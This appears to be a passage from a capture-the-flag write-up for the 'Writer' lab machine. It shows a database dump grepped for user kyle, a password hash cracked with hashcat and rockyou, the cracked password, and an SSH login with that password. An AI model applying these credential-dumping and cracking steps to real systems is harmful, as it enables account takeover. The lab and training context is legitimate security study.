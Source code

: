 Use the low priv shell to dump the SQL db, then grep for some keywords and find a hash for user kyle
```sql
cat dump.out| grep -i kyle
INSERT INTO `auth_user` VALUES (1,'pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=',NULL,1,'kyle','','','kyle@writer.htb',1,1,'2021-05-19 12:41:37.168368');
```
Run the hash through hashcat with rockyou to get kyle's password:```marcoantonio```
```bash
ssh kyle@10.10.11.101
kyle@10.10.11.101's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

[snip]

You have new mail.
Last login: Wed Sep  1 17:29:08 2021 from 10.10.16.2
```